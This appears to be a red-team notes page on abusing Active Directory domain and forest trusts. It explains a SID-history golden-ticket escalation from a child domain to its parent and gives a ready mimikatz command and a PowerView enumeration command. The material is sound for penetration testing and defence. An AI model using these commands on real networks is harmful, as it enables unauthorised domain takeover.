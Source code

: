 ## Domain/Forest Trust Abuse

Domains have trust with other domains within their forest by default. Trust direction goes into the opposite direction to access. That is to say, if Domain Z trusts Domain X, Domain X has access to Domain Z. Transitivity defines whether a domain that trusts another domain inadvertantly trusts their trusted domains.

### Child to Parent Attacks

If you obtain Domain Administrator privileges in a child domain, moving to a parent domain is generally possible. Children domains in forests automatically have a 2-way, transitive trust with the parents.

```powershell
zion.matrix.local <-> matrix.local 
```

The attack uses SID history, which was designed to support migrations between companies. When a TGT is requested in the new domain, their old domains SID is added to the SID history of the account in the new domain. Therefore, creating a golden ticket using the `krbtgt` hash of the child domain controller with the SID of the (Enterprise Admins/Domain Admins) group will grant it those same permissions in the parent domain.

We need the domain SID of the parent domain and the child domain. In the following command, the `/sid` is the current domain and the `/sids` is the target, parent domain group RID. 512 is Domain Admins. Either use the given `/ptt` to pass the ticket into your current session or remove it and replace it with a `/ticket:<location>` to save it.

```powershell
mimikatz !kerberos::golden /user:Administrator /domain:zion.matrix.local /sid:S-1-5-21-3619591028-1129495842-3952564 /sids:S-1-5-21-839412734-235434234-6712353534-512 /aes256:3d4c2156becf2dadddd89ac551efb9d591a8aa90b2fdb13cc820d734c9d76425 /ptt
```
### Inbound Trust 

If we have members in our local domain who are members in the target domain, try to see if they are re-using passwords across domains.

```powershell
Get-DomainForeignGroupMember -Domain matrix.local
```

### Cross Forest Attacks

SID filtering stops any SID with an RID of between 500-1000 being carried over between forests when a trust key is being used. 